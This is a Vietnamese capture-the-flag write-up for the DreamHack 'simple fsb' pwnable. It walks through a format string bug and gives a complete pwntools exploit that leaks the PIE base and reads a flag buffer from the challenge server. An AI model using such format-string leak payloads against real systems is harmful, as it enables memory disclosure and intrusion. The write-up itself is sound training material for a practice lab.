



# simple-fsb---Write-up-----DreamHack
Hướng dẫn cách giải bài simple fsb cho anh em mới chơi pwnable.

**Author:** Nguyễn Cao Nhân aka Nhân Sigma

**Category:** Binary Exploitation

**Date:** 5/1/2026

## 1. Mục tiêu cần làm
Khi đọc code ta thấy rằng nếu ta chọn 1 thì bài sẽ in flag vô biến là `flag_buf`. Đây là 1 biến toàn cục nằm ở `.bss`.

```C
int flag()
{
  int fd; // [rsp+Ch] [rbp-4h]

  fd = open("./flag", 0);
  if ( fd == -1 )
  {
    fwrite("flag open error\n", 1uLL, 16uLL, stderr);
    exit(0);
  }
  if ( read(fd, &flag_buf, 0x100uLL) == -1 )
  {
    fwrite("flag read error\n", 1uLL, 0x10uLL, stderr);
    exit(0);
  }
  return close(fd);
}
```

Bên cạnh đó khi ta chọn menu 2 thì ta thấy thêm 1 lỗi là **Format String**.

```C
unsigned __int64 fsb()
{
  char buf[88]; // [rsp+0h] [rbp-60h] BYREF
  unsigned __int64 v2; // [rsp+58h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  read(0, buf, 80uLL);
  printf(buf);
  return v2 - __readfsqword(0x28u);
}
```

Vậy ta chỉ cần tìm được địa chỉ của thằng `flag_buf`, sau đó dùng `%x$s` để đọc tại vị trí đó là xong.

## 2. Cách thực thi
Đầu tiên ta cần tìm được PIE đã, nhìn vào stack sau khi nhập `buf`



Ta thấy tại vị trí `0x7fffffffdde0`, ta thấy `main+135` là `0x000055555555543e`. Ta có thể tính offset bằng cách gõ vmmap sau đó lấy giá trị `0x000055555555543e` - base PIE là ra.



Giá trị hơi khác tí do mình xài attach nhưng offset đều như nhau cả thôi.

Có PIE rồi thì tìm được địa chỉ `flag_buf`

```Python
p.send(b'%19$p')
leaked_str = p.recvuntil(b'>').decode().split('>')[0].strip()
leak_addr = int(leaked_str, 16)
PIE_base = leak_addr - 0x143e 
log.success(f'PIE base : {hex(PIE_base)}')

flag_buf_add = PIE_base + 0x4060
```

Quên chỉ các bạn là từ `x` là 6 thì nó sẽ bắt đầu in ra trên stack bạn nhập vào. Mình tính được rằng từ `buf` đến `main+135` là 19 nha.

Sau khi có được địa chỉ rồi thì ta sẽ nhập `%7$s....` + `p64(flag_buf)` là ra.

```Python
p.sendline(b'2')
payload = payload = b'%7$s....' + p64(flag_buf_add)
p.sendline(payload)
```

Tại sao lại là `%7$s....` ? `%7$s` là để đọc vào vị trí tiếp theo là `p64(flag_buf)`, còn `....` là để điền đủ 8 byte, các bạn có thể thay bằng gì cũng được miễn đủ 8 byte là ok.

Vậy là xong, bài này khá là dễ. Nó chỉ luyện thêm trình đọc gdb và dùng **Format String** thôi. Hãy cho mình 1 star để có động lực viết tiếp nha 🐧.



## 3. Exploit

```Python
from pwn import *

# p = process('./chall')
p = remote('host8.dreamhack.games', 9552)

p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'> ', b'2')

p.send(b'%19$p')
leaked_str = p.recvuntil(b'>').decode().split('>')[0].strip()
leak_addr = int(leaked_str, 16)
PIE_base = leak_addr - 0x143e 
log.success(f'PIE base : {hex(PIE_base)}')

flag_buf_add = PIE_base + 0x4060

p.sendline(b'2')
payload = payload = b'%7$s....' + p64(flag_buf_add)
p.sendline(payload)

p.interactive()
```
